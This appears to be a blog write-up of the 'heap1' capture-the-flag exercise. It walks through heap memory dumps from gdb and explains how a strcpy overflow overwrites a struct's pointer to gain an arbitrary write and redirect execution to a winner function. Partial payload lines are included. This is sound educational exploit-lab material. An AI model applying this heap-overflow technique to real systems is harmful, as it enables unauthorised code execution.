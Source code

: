 ```yaml
---
title:  "Writeup: heap1"
date:   2019-04-22 
categories: writeup
layout: post
author: Robaire Galliath
---
```


Before diving into heap1 it is important to understand what we have to work with. Looking at the source code it is clear that much like in heap0 we need to call the function winner to read the flag.

```c
void winner()
{
  char buffer[64];
  FILE *fp;

  printf("and we have a winner @ %d\n", time(NULL));

  fp = fopen("./flag.txt", "r");

  fgets(buffer, 64, (FILE*)fp);
  printf("flag: %s\n", buffer);
}
```
Of course looking at main, there is no direct way to call winner like there was in heap0.

```c
int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

What we do see in main is that some memory is being allocated on the heap. In total four items are malloc'd, two instances of the struct `internet` and two eight byte arrays. 

Lets break down exactly what is happening.

1. First the `internet` struct is malloc'd.

```c
struct internet {
  int priority;
  char *name;
};
```

```c
i1 = malloc(sizeof(struct internet));
```

This allocates at least eight bytes, four for the integer `priority` and another four to store the pointer to `name`.

2. Then the value of `priority` is set.

```c
i1->priority = 1;
```

3. Finally eight bytes are malloc'd, and the address of that chunk is stored in `name`.

```c
i1->name = malloc(8);
```

So what exactly does that look like in memory? I used the gef plugin for gdb to get a nice printout of the heap right after all four objects are malloc'd. 

```python
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     00 00 00 00 00 00 00 00 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b028, size=0x10, flags=PREV_INUSE)
    [0x0804b028     02 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    ....8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     00 00 00 00 00 00 00 00 00 00 00 00 c1 0f 02 00    ................]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

There is a lot going on here so let's break it down by chunk.

```python
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
```

This first chunk represents the first `internet` struct. It begins at address `0x804b008` and is sixteen bytes long. The first four bytes are the `priority` integer, and in this case it has been set to 1, `01 00 00 00`. The next four bytes, `18 b0 04 08`, is the pointer to `name`. Then there are eight extra bytes that store some metadata about the chunk, but that is not important and can be ignored.

```python
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     00 00 00 00 00 00 00 00 00 00 00 00 11 00 00 00    ................]
```

This second chunk stores the eight bytes that were malloc'd to store `name`. Notice that the address of this chunk is the same address that was stored in bytes five through eight of the previous chunk.

The remaining two chunks are structured the same as the first two, just with different values. 


After memory is allocated, the first two arguments to the program are copied into `name` using `strcopy`. Our exploit will rely on the fact that `strcopy` has no idea how many bytes to write and will readily overflow the buffer it is writing to.

```c
strcpy(i1->name, argv[1]);
strcpy(i2->name, argv[2]);
```

But for now lets read in some simple inputs and see what happens. In this case heap1 was given `aaaaaaaa` and `bbbbbbbb` as command line arguments. Looking at the heap after the calls to `strcpy` we can clearly see the strings we provided as series of 61's and 62's.

```python
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 00 00 00 00 11 00 00 00    aaaaaaaa........]
Chunk(addr=0x804b028, size=0x10, flags=PREV_INUSE)
    [0x0804b028     02 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    ....8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     62 62 62 62 62 62 62 62 00 00 00 00 c1 0f 02 00    bbbbbbbb........]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

It is important to understand what exactly is happening when `strcopy` is called. 

```c
strcpy(i1->name, argv[1]);
```

The address `strcpy` will write to is stored in i1. In this case it is `0x0804b018`. `strcpy` will then start writing bytes beginning at that address.

Remember how `strcpy` will write as many bytes as you tell it to? Let's see what happens when we pass it more than sixteen bytes (the total size of chunk 2).

```python
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x804b028, size=0x61616160, flags=PREV_INUSE)
    [0x0804b028     61 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    a...8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     62 62 62 62 62 62 62 62 00 00 00 00 c1 0f 02 00    bbbbbbbb........]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

The seventeenth `a` got written into the chunk for `i2`. If we wrote a few more bytes we could overwrite the address stored in `i2` to point anywhere we want. Then the second call to `strcpy` will write to that new address instead of writing into chunk 4 like it should. This gives us the power to write what ever we want, where ever we want.

As an example lets use `python -c "print 'a'*20 + '\x10\x10\x10\x10'"` as our input.
```python
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x804b028, size=0x61616160, flags=PREV_INUSE)
    [0x0804b028     61 61 61 61 10 10 10 10 00 00 00 00 11 00 00 00    aaaa............]
```
Now the second call to `strcpy` will write our b's to address `0x10101010`.


If we know where the top of the stack is, we can now use this method to overwrite the return address so that when `main` exits, `winner` is called instead. We have used this technique several times already. Using gdb we can find out the address of `winner` is `0x804854b`. So we need to write that somewhere near the top of the stack. 

So our first arugment needs to overwrite the address stored in the second struct.
`python -c "print 'a'*20 + '\x??\x??\x??\x??'"`

And the second argument needs to be the address of `winner`.
`python -c "print '\x4b\x85\x04\x08'"`

(To make things a little easier you might want to write more than one copy of `0x804854b`.) 
